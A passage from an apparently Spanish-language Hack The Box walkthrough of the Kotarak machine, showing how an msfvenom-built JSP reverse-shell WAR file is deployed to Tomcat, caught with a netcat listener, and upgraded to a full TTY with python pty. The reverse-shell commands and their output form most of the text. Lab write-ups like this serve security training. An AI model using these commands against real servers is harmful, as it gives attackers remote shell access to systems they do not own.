 Para poder ingresar a la máquina, ya debemos saber que necesitamos crear un archivo de extensión `war` y subirlo a la máquina (**Nota**: El archivo se sube en la parte donde se indica "Archivo WAR a desplegar").

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.16 lport=443 -f war -o shell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
Saved as: shell.war
```

![""](/assets/images/htb-kotarak/kotarak-war.png)

Nos ponemos en escucha por el puerto 443 y le damos click en nuestro archivo `/shell`:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.55] 49290
whoami
tomcat
```

Ya nos encontramos dentro de la máquina y vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar más cómodos. Para este caso, vamos a tener un detalle al ejecutar el comando `script /dev/null -c bash` que no nos arroja una pseudo consola así que vamos a utilizar el comando `whereis python` para ver que versiones de python cuenta la máquina víctima y posterior ejecutamos `python3.5 -c 'import pty; pty.spawn("/bin/bash")'` para tener ahora si una pseudo consola (**Nota**: En caso de que no se nos cree la pseudo consola, ejecutar nuevamente el comando) y proseguimos con el tratamiento de la tty.